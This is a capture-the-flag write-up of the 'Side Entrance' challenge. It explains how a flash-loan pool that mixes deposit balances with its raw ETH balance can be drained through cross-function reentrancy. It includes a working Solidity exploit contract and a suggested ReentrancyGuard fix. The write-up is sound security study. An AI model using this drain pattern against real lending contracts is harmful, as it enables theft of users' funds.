

# Challenge 04: Side Entrance — Audit Write-Up & Learning Notes

- **Category:** Cross-Function Reentrancy / Shared State & Balance Accounting Collision
- **Contracts in Scope:**
  - [`src/side-entrance/SideEntranceLenderPool.sol`](../src/side-entrance/SideEntranceLenderPool.sol)
- **Test File:** [`test/side-entrance/SideEntrance.t.sol`](../test/side-entrance/SideEntrance.t.sol)

---

## 1. Scenario & Objective

- `SideEntranceLenderPool` holds **1,000 ETH** (native ETH) and lets anyone `deposit()` ETH, `withdraw()` their deposited ETH, and take free `flashLoan()`s using the pool's ETH.
- Starting as `player` with **1 ETH**, my goal is to drain all **1,000 ETH** from the pool and send it to `recovery`.

---

## 2. Pain Points & The Mental Model That Made It Click

At first, when looking at the abstract code and questions about dual accounting (`balances[msg.sender]` vs. `address(this).balance`), I didn't immediately see how to answer them.

What made the vulnerability click for me was picturing `SideEntranceLenderPool` as a **Bank with Two Windows** that share the same physical cash vault (`address(this).balance`) without talking to each other:

1. **Window 1 — The Flash Loan Clerk (`flashLoan`):**

   ```solidity
   function flashLoan(uint256 amount) external {
       uint256 balanceBefore = address(this).balance;

       IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

       if (address(this).balance < balanceBefore) {
           revert RepayFailed();
       }
   }
   ```

   - The Flash Loan Clerk writes down how much cash was in the vault before the loan (`balanceBefore = 1,000 ETH`), hands me `1,000 ETH` by calling `execute{value: 1000 ether}()`, and only checks one thing when `execute()` finishes: **Does the vault still have `1,000 ETH` inside it?**

2. **Window 2 — The Savings Account Clerk (`deposit` & `withdraw`):**

   ```solidity
   function deposit() external payable {
       unchecked {
           balances[msg.sender] += msg.value;
       }
       emit Deposit(msg.sender, msg.value);
   }
   ```

   - While I am holding the Bank's borrowed `1,000 ETH` inside `execute()`, instead of handing it back to Window 1, I walk around to the **"Side Entrance" (Window 2)** and call `pool.deposit{value: 1000 ether}()`!
   - The Savings Account Clerk puts that `1,000 ETH` back into the Bank Vault (`address(this).balance` is back to `1,000 ETH`!) **and** writes in the ledger:
     $$\text{balances}[\text{myContract}] = 1,000\text{ ETH}$$

3. **Cashing Out:**
   - When `execute()` returns to Window 1, the Flash Loan Clerk checks `address(this).balance < balanceBefore` (`1,000 ETH < 1,000 ETH`), sees that the vault still has `1,000 ETH`, and marks the flash loan as paid back!
   - Right after `flashLoan()` finishes, the Bank's ledger says I have `1,000 ETH` in my Savings Account—so I simply call **`pool.withdraw()`** to take all `1,000 ETH` out!

---

## 3. Vulnerability Analysis & Exploit Flow



### Why We Can't Run `flashLoan` Inside `constructor` Here

In Challenge 3 (_Truster_), we ran the entire attack inside `constructor` because the pool was calling `token.approve(...)` (an external contract that was already deployed).
Here in Challenge 4, `pool.flashLoan()` calls `IFlashLoanEtherReceiver(msg.sender).execute()` **back on our exploit contract**. While a contract is still inside its `constructor`, its runtime bytecode hasn't been stored at its address yet—so any callback into `execute()` during `constructor` would fail! Deploying first and chaining `.attack(pool)` solves this cleanly.

---

## 4. My Exploit Implementation & Solidity Best-Practice Refinements

Here is the exploit contract I wrote, along with three Solidity coding best practices I learned while reviewing my code:

```solidity
contract SideEntranceExploit is IFlashLoanEtherReceiver {
    SideEntranceLenderPool private pool;
    address private immutable recovery;

    constructor(address _recovery) {
        recovery = _recovery;
    }

    function execute() external payable {
        // Walk to Window 2 and deposit the borrowed ETH into our Savings Account!
        pool.deposit{value: msg.value}();
    }

    function attack(SideEntranceLenderPool _pool) external {
        pool = _pool;

        // Walk to Window 1 and borrow all the ETH from the bank!
        pool.flashLoan(address(pool).balance);

        // Walk to Window 3 and withdraw all the ETH from our Savings Account!
        pool.withdraw();

        // Walk to Window 4 and send all the ETH to our recovery account!
        SafeTransferLib.safeTransferETH(recovery, address(this).balance);
    }

    receive() external payable {}
}
```

### Solidity Coding Best Practices Learned

1. **Prefer `.call{value: ...}("")` or `SafeTransferLib.safeTransferETH` over `.transfer()`:**
   - In my initial code, I wrote `payable(recovery).transfer(address(this).balance);`.
   - While `.transfer()` works when `recovery` is an EOA, `.transfer()` only forwards a hardcoded **2,300 gas stipend**. In production, if the recipient is a smart contract (like a multisig wallet) whose `receive()` hook uses more than 2,300 gas, `.transfer()` will revert!
   - Using `SafeTransferLib.safeTransferETH(recovery, address(this).balance)` (or `(bool ok, ) = recovery.call{value: ...}(""); require(ok);`) forwards all available gas safely.
2. **Mark variables set once in `constructor` as `immutable` (and add explicit visibility like `private`):**
   - Marking `address private immutable recovery;` embeds the value directly into the runtime bytecode instead of using storage slots (`SSTORE` / `SLOAD`), saving thousands of gas.
3. **Explicitly inherit interfaces (`is IFlashLoanEtherReceiver`):**
   - Inheriting `IFlashLoanEtherReceiver` lets the compiler check at compile time that `execute() external payable` has the exact function signature the pool expects.
4. **Always include `receive() external payable {}` when receiving native ETH:**
   - Without `receive() external payable {}`, a smart contract will reject native ETH transfers from `pool.withdraw()` and revert.

---

## 5. Lessons Learned & Personal Audit Notes

1. **Cross-Function Reentrancy (The "Two Windows" Pattern):**
   - Many developers think reentrancy only happens inside a single function (`withdraw()` calling itself before `delete balances[msg.sender]`).
   - Notice that `SideEntranceLenderPool.withdraw()` actually follows the **Checks-Effects-Interactions (CEI)** pattern (`delete balances[msg.sender]` happens _before_ `safeTransferETH`), so `withdraw()` itself isn't vulnerable to classic single-function reentrancy!
   - Instead, the vulnerability is **Cross-Function Reentrancy**: entering the contract via `flashLoan()` (Window 1) and re-entering via `deposit()` (Window 2), because both functions share the same underlying asset balance (`address(this).balance`)!
2. **How to Fix `SideEntranceLenderPool`:**
   - Add a contract-wide `nonReentrant` lock (`ReentrancyGuard`) across **all** state-modifying functions (`deposit`, `withdraw`, and `flashLoan`) so a user cannot call `deposit()` while a `flashLoan()` is active.
